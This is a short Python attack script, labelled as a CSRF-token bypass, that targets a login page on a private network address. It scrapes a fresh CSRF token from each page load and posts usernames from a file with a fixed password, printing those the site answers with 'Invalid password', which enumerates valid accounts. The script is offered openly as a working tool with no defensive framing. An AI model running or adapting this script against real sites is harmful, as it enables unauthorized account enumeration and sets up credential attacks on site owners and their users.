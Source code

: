 #simple bypass csrf token script
import requests
from bs4 import BeautifulSoup
import sys

url = 'http://192.168.43.210/login.php'  
header = {"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8","X-Requested-Withi": "XMLHttpRequest","Cookie": "PHPSESSID=443j9g203gm7d18c4s16am9ni2","Accept": "application/json, text/javascript, */*; q=0.01","Origini": "http://192.168.43.210","Referer": "http://192.168.43.210/login.php","User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"}
proxies = {"http":"http://127.0.0.1:8080"}
def getToken():
    response = requests.get(url,headers=header)
    
    soup = BeautifulSoup(response.text, 'html.parser')
    csrf_token = soup.find('input', {'id': 'logcsrf'})
    
    if csrf_token:
        token_value = csrf_token.get('value')
        return token_value
if __name__ == '__main__':
    file = sys.argv[1]
    with open(file,'r') as f:
         for user in f:
             token = getToken()
             data = {"username":user.strip(),"password":"password","logcsrf":token}
             r = requests.post("http://192.168.43.210/RL.php",headers = header,data = data, proxies = proxies)
             if "Invalid password" in r.text:
                 print(user.strip())
                 
